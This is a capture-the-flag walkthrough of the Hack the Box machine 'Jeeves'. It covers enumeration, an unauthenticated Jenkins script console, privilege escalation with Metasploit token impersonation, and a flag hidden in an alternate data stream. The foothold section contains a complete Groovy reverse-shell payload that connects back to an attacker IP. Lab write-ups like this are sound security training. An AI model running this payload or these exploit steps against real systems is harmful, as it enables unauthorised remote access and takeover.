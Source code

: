 ```yaml
---
title: Jeeves
date: 2024-02-23 10:00
categories: [ctf, security, hacking, exploits, weak credentials, remote code execution, web application]
tags: [ctf, security, hacking, exploits, weak credentials, remote code execution, web application]
---
```


# Overview
Jeeves is a vulnerable machine from [Hack the Box](https://www.hackthebox.com) that requires some basic enumeration and directory fuzzing. The foothold is accomplished after some enumeration of web pages and gaining access to the Jenkins login, and the privilege escalation is done with token impersonation similar to the Alfred box on [TryHackMe](https://tryhackme.com).

## Nmap Scan
sudo nmap -Pn -sS `10.10.10.63` -vvv

* 80/tcp    open  http         syn-ack
* 135/tcp   open  msrpc        syn-ack
* 445/tcp   open  microsoft-ds syn-ack
* 50000/tcp open  ibm-db2      syn-ack | http-title: Ask Jeeves

## Basic Enumeration
After exploring the web page on port 80, we just get an image on the page. Not really a major bit of information, but it does give us some data that we can still take note of for later on:

* Microsoft SQL server 2005 on the backend
* https://eclipse.dev/jetty/
    * Jetty has a vulnerability: Information Disclosure | java/webapps/50438.txt

Port 50000 is the port for us to look through. Smbclient enumeration on port 445 didn't yield anything for us. 

* Using a directory fuzzer, we find the `askjeeves` directory. We have direct access without logging in.
    * http://10.10.10.63:50000/askjeeves/
    * Jenkins version 2.87 running.
    * Without having to log in, we are able to find a script console.
    * We can pass groovy script to execute code/commands.

## Foothold
[Documentation on Groovy Scripts](https://www.jenkins.io/doc/book/managing/script-console/#:~:text=Jenkins%20features%20a%20Groovy%20script,integrity%20of%20your%20Jenkins%20installation)

We can find and use a reverse shell for groovy script, and get a connection back on our machine with `nc`.

```java
String host="10.10.16.3";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
We get a shell back on this, and are user `jeeves\kohsuke`. We can access `user.txt`.

![User](https://github.com/Dathalind/dathalind.github.io/blob/main/assets/img/jeeves/Jeeves_User.png?raw=true)

## Local Enumeration
Checking the users on the host, the only other user than jeeves is `Administrator`.

* We can find what privileges we have using `whoami/priv`:
```
SeShutdownPrivilege | Shut down the system | Disabled
SeChangeNotifyPrivilege | Bypass traverse checking | Enabled
SeUndockPrivilege | Remove computer from docking station | Disabled
SeImpersonatePrivilege | Impersonate client after authentication | Enabled
SeCreateGlobalPrivilege | Create global objects | Enabled
SeIncreaseWorkingSetPrivilege | Increase a process working set | Disabled
SeTimeZonePrivilege | Change the time zone | Disabled
```

* We run systeminfo on the current shell, and copy the output to a file. On kali, we can run `Windows Exploit Suggester` to get some potential path's to escalate privileges. 
* If we get a meterpreter shell on the host as well, we can do the same thing through `msfconsole`.

## Privilege Escalation
Bring up the msfconsole.
* use exploit(multi/script/web_delivery)
* when in the meterpreter shell, run `post/multi/recon/local_exploit_suggester`
* use `exploit/windows/local/ms16_075_reflection_juicy`
    * Load incognito, then we can list out tokens.
    * `list_tokens -u, -g`
    * The user token didn't work for us, but the group token seems to work. 
* We were able to impersonate the `BUILTIN\Administrators` group. 

Looking at the `Administrators Desktop`, the file we see is `hm.txt`. When we read it, it tells us to dig more basically. 

* We can read alternative data streams, by running `dir /R`, we can see the other data stream [Malware Bytes Blog](https://blog.malwarebytes.com/101/2015/07/introduction-to-alternate-data-streams/). 
* We run this, and we can finally read the file: `more < hm.txt:root.txt:$DATA`

![Root](https://github.com/Dathalind/dathalind.github.io/blob/main/assets/img/jeeves/Jeeves_Root.png?raw=true)